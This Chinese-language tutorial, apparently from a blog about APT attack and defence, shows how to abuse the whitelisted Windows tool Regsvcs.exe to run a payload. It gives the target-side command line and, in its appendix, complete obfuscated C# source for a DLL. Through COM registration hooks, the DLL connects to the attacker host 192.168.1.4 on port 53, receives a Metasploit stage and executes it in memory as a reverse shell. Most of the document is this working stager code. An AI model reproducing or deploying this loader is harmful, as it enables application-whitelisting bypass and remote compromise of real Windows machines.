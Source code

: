 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**Regsvcs简介：**

Regsvcs为.NET服务安装工具，主要提供三类服务：
* 加载并注册程序集。
* 生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中。
* 配置以编程方式添加到类的服务。

**说明：**Regsvcs.exe所在路径没有被系统添加PATH环境变量中，因此，Regsvcs命令无法识别。

具体参考微软官方文档：
https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool

基于白名单Regsvcs.exe配置payload：

Windows 7 默认位置：
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe`

**攻击机：**192.168.1.4 Debian

**靶机：**192.168.1.3 Windows 7

**配置攻击机msf：**
![](media/f80a8df6945621d36a5dd72bf623281a.jpg)

**靶机执行：**
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe Micropoor.dll`
![](media/5a929f376966814377cd69342c7f8f17.jpg)

## 附录：Micropoor.cs
**注：x86 payload**

```c#
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace phwUqeuTRSqn

{

public class mfBxqerbXgh : ServicedComponent { 

public mfBxqerbXgh() { Console.WriteLine("Micropoor"); } 

[ComRegisterFunction]

public static void RegisterClass ( string DssjWsFMnwwXL )

{

uXsiCEXRzLNkI.BBNSohgZXGCaD();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string DssjWsFMnwwXL )

{

 uXsiCEXRzLNkI.BBNSohgZXGCaD();

}

} 

public class uXsiCEXRzLNkI

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 pAyHWx, UInt32 KXNJUcPIUymFNbJ, UInt32 MotkftcMAIJRnW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 yjmmncJHBrUu, UInt32 MYjktCDxYrlTs, UInt32 zyBAwQVBQbi);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 PorEiXBhZkA, byte[] UIkcqF, UInt32 wAXQEPCIVJQQb);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 WNvQyYv, UInt32 vePRog, UInt32 Bwxjth, IntPtr ExkSdsTdwD, UInt32 KfNaMFOJVTSxbrR, ref UInt32 QEuyYka);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pzymHg, UInt32 lReJrqjtOqvkXk);static byte[] SVMBrK(string MKwSjIxqTxxEO, int jVaXWRxcmw) {

IPEndPoint hqbNYMZQr = new IPEndPoint(IPAddress.Parse(MKwSjIxqTxxEO), jVaXWRxcmw);

Socket LbLgipot = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { LbLgipot.Connect(hqbNYMZQr); }

catch { return null;}

byte[] VKQsLPgLmVdp = new byte[4];

LbLgipot.Receive(VKQsLPgLmVdp, 4, 0);

int jbQtneZFbvzK = BitConverter.ToInt32(VKQsLPgLmVdp, 0);

byte[] cyDiPLJhiAQbw = new byte[jbQtneZFbvzK + 5];

int vyPloXEDJoylLbj = 0;

while (vyPloXEDJoylLbj < jbQtneZFbvzK)

 { vyPloXEDJoylLbj += LbLgipot.Receive(cyDiPLJhiAQbw, vyPloXEDJoylLbj + 5, (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) < 4096 ? (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) : 4096, 0);}

byte[] MkHUcy = BitConverter.GetBytes((int)LbLgipot.Handle);

Array.Copy(MkHUcy, 0, cyDiPLJhiAQbw, 1, 4); cyDiPLJhiAQbw[0] = 0xBF;

return cyDiPLJhiAQbw;}

static void ZFeAPdN(byte[] hjErkNfmkyBq) {

if (hjErkNfmkyBq != null) {

UInt32 xYfliOUgksPsv = HeapCreate(0x00040000, (UInt32)hjErkNfmkyBq.Length, 0);

UInt32 eSiulXLtqQO = HeapAlloc(xYfliOUgksPsv, 0x00000008, (UInt32)hjErkNfmkyBq.Length);

RtlMoveMemory(eSiulXLtqQO, hjErkNfmkyBq, (UInt32)hjErkNfmkyBq.Length);

UInt32 NByrFgKjVjB = 0;

IntPtr PsIqQCvc = CreateThread(0, 0, eSiulXLtqQO, IntPtr.Zero, 0, ref NByrFgKjVjB);

WaitForSingleObject(PsIqQCvc, 0xFFFFFFFF);}} 

public static void BBNSohgZXGCaD() {

byte[] cyDiPLJhiAQbw = null; cyDiPLJhiAQbw = SVMBrK("192.168.1.4", 53);

ZFeAPdN(cyDiPLJhiAQbw);

} } }
```
>   Micropoor
